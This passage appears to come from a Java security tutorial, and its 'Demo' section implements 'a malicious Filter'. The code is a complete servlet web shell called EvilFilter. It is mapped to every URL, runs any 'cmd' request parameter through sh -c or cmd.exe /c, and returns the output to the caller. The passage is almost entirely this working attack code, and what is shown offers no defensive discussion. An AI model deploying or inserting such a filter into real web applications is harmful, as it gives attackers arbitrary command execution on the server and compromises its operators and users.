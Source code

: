 ### Demo

​ Let’s simply implement a malicious `Filter`:

```java
package filter;

import javax.servlet.*;
import javax.servlet.annotation.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.util.Scanner;

@WebFilter(filterName = "EvilFilter", urlPatterns = "/*")
public class EvilFilter implements Filter {
    public void init(FilterConfig config) throws ServletException {
    }

    public void destroy() {
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;

        if (req.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osProperty = System.getProperty("os.name");
            if (osProperty != null && osProperty.toLowerCase().contains("win")) {
                isLinux = false;
            }

            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
            InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
            String output = scanner.hasNext() ? scanner.next() : "";
            resp.getWriter().write(output);
            resp.getWriter().flush();
        }

        chain.doFilter(request, response);
    }
}
```

